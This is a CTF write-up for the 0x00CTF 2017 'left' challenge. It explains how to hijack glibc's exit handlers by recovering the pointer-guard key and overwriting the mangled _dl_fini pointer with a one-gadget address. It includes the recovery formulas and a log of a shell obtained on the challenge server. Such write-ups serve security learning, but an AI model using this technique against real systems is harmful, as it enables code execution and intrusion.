

# left - 0x00CTF 2017

First at all execute `file` command on the binary (the libc is already provided by the organizers of the CTF)
```bash
$ file guessme
guessme: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, for GNU/Linux 2.6.32, BuildID[sha1]=92b1d84ee22b7c92dc80fac971bdc7f6cd0e3672, stripped
```

And [checksec](https://github.com/slimm609/checksec.sh)
```bash
$ ./checksec --file ../pwning/0x00CTF/left/left
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH	FORTIFY	Fortified Fortifiable  FILE
Full RELRO      No canary found   NX enabled    No PIE          No RPATH   No RUNPATH   No	0		2	../pwning/0x00CTF/left/left
```

This was a 250 pts pwnable challange, the hardest of the competition. Unfortunately i solved this challenge only two hours later the end of the competition. The challange was funny, in a nutshell:
1. The binary prints the address of `printf` function
2. We can leak 8 bytes from any memory location
3. We can write 8 bytes wherever we want
4. The binary calls `exit`.



I tried really a lot of exploits: 
1. overwrite an entry in the got. Nope, full RELRO :P
2. use the `atexit` pointers. Nope, read only
3. use the `__free_hook` pointers. The `exit` function in certain cases calls the `free`, so i tried for few hours to follow this strategy but without success. 

I was becoming crazy, but with my teammate @[ret2libc](https://github.com/ret2libc) we had a look at the libc code and found another way to exploit it. And i'll try to explain now what happened. 

The `exit` function calls `__run_exit_handlers` function, and this is its implementation

```C
/* Call all functions registered with `atexit' and `on_exit',
   in the reverse of the order in which they were registered
   perform stdio cleanup, and terminate program execution with STATUS.  */
void
attribute_hidden
__run_exit_handlers (int status, struct exit_function_list **listp,
		     bool run_list_atexit)
{
  /* First, call the TLS destructors.  */
#ifndef SHARED
  if (&__call_tls_dtors != NULL)
#endif
    __call_tls_dtors ();

  /* We do it this way to handle recursive calls to exit () made by
     the functions registered with `atexit' and `on_exit'. We call
     everyone on the list and use the status value in the last
     exit (). */
  while (*listp != NULL)
    {
      struct exit_function_list *cur = *listp;

      while (cur->idx > 0)
	{
	  const struct exit_function *const f =
	    &cur->fns[--cur->idx];
	  switch (f->flavor)
	    {
	      void (*atfct) (void);
	      void (*onfct) (int status, void *arg);
	      void (*cxafct) (void *arg, int status);

	    case ef_free:
	    case ef_us:
	      break;
	    case ef_on:
	      onfct = f->func.on.fn;
#ifdef PTR_DEMANGLE
	      PTR_DEMANGLE (onfct);
#endif
	      onfct (status, f->func.on.arg);
	      break;
	    case ef_at:
	      atfct = f->func.at;
#ifdef PTR_DEMANGLE
	      PTR_DEMANGLE (atfct);
#endif
	      atfct ();
	      break;
	    case ef_cxa:
	      cxafct = f->func.cxa.fn;
#ifdef PTR_DEMANGLE
	      PTR_DEMANGLE (cxafct);
#endif
	      cxafct (f->func.cxa.arg, status);
	      break;
	    }
	}

      *listp = cur->next;
      if (*listp != NULL)
	/* Don't free the last element in the chain, this is the statically
	   allocate element.  */
	free (cur);
    }

  if (run_list_atexit)
    RUN_HOOK (__libc_atexit, ());

  _exit (status);
}
```

A parameter of the `__run_exit_handlers` is a `struct exit_function_list **listp`. The libc initializes a static struct `initial` 

```C
static struct exit_function_list initial;
struct exit_function_list *__exit_funcs = &initial;
```

then the libc uses these two functions to add an internal `atexit` function to be called when the program ends

```C
int
attribute_hidden
__internal_atexit (void (*func) (void *), void *arg, void *d,
		   struct exit_function_list **listp)
{
  struct exit_function *new = __new_exitfn (listp);

  if (new == NULL)
    return -1;

#ifdef PTR_MANGLE
  PTR_MANGLE (func);
#endif
  new->func.cxa.fn = (void (*) (void *, int)) func;
  new->func.cxa.arg = arg;
  new->func.cxa.dso_handle = d;
  atomic_write_barrier ();
  new->flavor = ef_cxa;
  return 0;
}

int
__cxa_atexit (void (*func) (void *), void *arg, void *d)
{
  return __internal_atexit (func, arg, d, &__exit_funcs);
}
libc_hidden_def (__cxa_atexit)
```
The static struct `__exit_funcs` (i.e. `initial`) is extremely important, because if we can write an address of a function to be called here we would win :)
Note that the pointer added to the list is encrypted using a `ror` and `xor` with a random key. The value is then decrypted at run time.
This is the implementation of `PTR_MANGLE` and `PTR_DEMANGLE`

```C
# ifdef __ASSEMBLER__
#  define PTR_MANGLE(reg)	xorl %gs:POINTER_GUARD, reg;		      \
				roll $9, reg
#  define PTR_DEMANGLE(reg)	rorl $9, reg;				      \
				xorl %gs:POINTER_GUARD, reg
# else
#  define PTR_MANGLE(var)	asm ("xorl %%gs:%c2, %0\n"		      \
				     "roll $9, %0"			      \
				     : "=r" (var)			      \
				     : "0" (var),			      \
				       "i" (offsetof (tcbhead_t,	      \
						      pointer_guard)))
#  define PTR_DEMANGLE(var)	asm ("rorl $9, %0\n"			      \
				     "xorl %%gs:%c2, %0"		      \
				     : "=r" (var)			      \
				     : "0" (var),			      \
				       "i" (offsetof (tcbhead_t,	      \
						      pointer_guard)))
# endif
```

Now have a look at the `exit` implementation

```C

void
exit (int status)
{
  __run_exit_handlers (status, &__exit_funcs, true);
}
libc_hidden_def (exit)
```

It uses `&__exit_funcs`, i.e `&initial`! In the file `libc-start.c` you can figure out that it uses the function `__cxa_atexit` to add a function: `_dl_fini`: 

```C
/* Register the destructor of the dynamic linker if there is any.  */
  if (__glibc_likely (rtld_fini != NULL))
    __cxa_atexit ((void (*) (void *)) rtld_fini, NULL, NULL);

#ifndef SHARED
  /* Call the initializer of the libc.  This is only needed here if we
     are compiling for the static library in which case we haven't
     run the constructors in `_dl_start_user'.  */
  __libc_init_first (argc, argv, __environ);

  /* Register the destructor of the program, if any.  */
  if (fini)
    __cxa_atexit ((void (*) (void *)) fini, NULL, NULL);
``` 

What we can do is: 
1. We have the leak of the libc location. We can find the address of the magic gadget, the address of `initial` structure and everithing we need
2. leak the value of the encrypted pointer `_dl_fini_enc`
3. get the secret key (working with 64 bits) with  `rol(_dl_fini_enc, 0x11) ^ _dl_fini_address`.
4. overwrite the pointer `_dl_fini_enc` with the encrypted magic gadget address calculated with `rol((magic_addr) ^ (key), 0x11, 64 )`
5. WIN!

```bash
$ python exploit.py 159.203.116.12 7777
[+] libc address: 0x7fa70c2f0000
[+] key: 0xab85f3272361ce8eL
[+] writing at: 0x7fa70c6b5c58
[+] write value: 0x19005ea539c9570bL
[+] interactive

id
uid=1000(left) gid=1000(left) groups=1000(left)
cat /home/left/flag.txt
0x00CTF{exPL0it1ng__EXit_FUNkz_LikE_4b0sZ!}
```

Find the binary [here](left) (and the related [libc](libc-2.23.so)), the full exploit [here](exploit.py)! I really enjoyed this challenge! 
